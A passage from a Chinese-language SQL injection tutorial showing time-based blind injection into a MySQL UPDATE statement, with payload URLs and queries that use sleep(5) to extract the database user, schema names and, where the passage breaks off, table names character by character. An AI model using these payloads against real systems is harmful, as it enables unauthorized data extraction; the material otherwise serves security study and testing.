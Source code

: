 读取不同的内容

例如:

substring(user(),1,1) = r

substring(user(),2,1) = o



web语句: http://www.test.com/sql_save.php?data=if(substring(user(),1,1)='r',sleep(5),1)
数据库语句: UPDATE test SET content=if(substring(user(),1,1)='r',sleep(5),1) WHERE id=1;

## 0x04 猜库名

注意: LIMIT 0 修改会显示其他库名

例如:

LIMIT 0,1 修改为0 就是出1库

LIMIT 1,1 修改为1 就是出2库

```plain
// 演示数据
mysql> SELECT schema_name FROM information_schema.schemata LIMIT 0,1;
+--------------------+
| schema_name        |
+--------------------+
| information_schema |
+--------------------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/sql_save.php?data=if(substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)='i',sleep(5),1)



读取1库库名第一个字: UPDATE test SET content=if(substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)='i',sleep(5),1) WHERE id=1;



读取1库库名第二个字: UPDATE test SET content=if(substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),2,1)='n',sleep(5),1) WHERE id=1;

## 0x05 猜表名

注意: table_schema=xxx 修改为其他库会爆出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据



注意: LIMIT 0 修改会爆出不同的表名

例如:
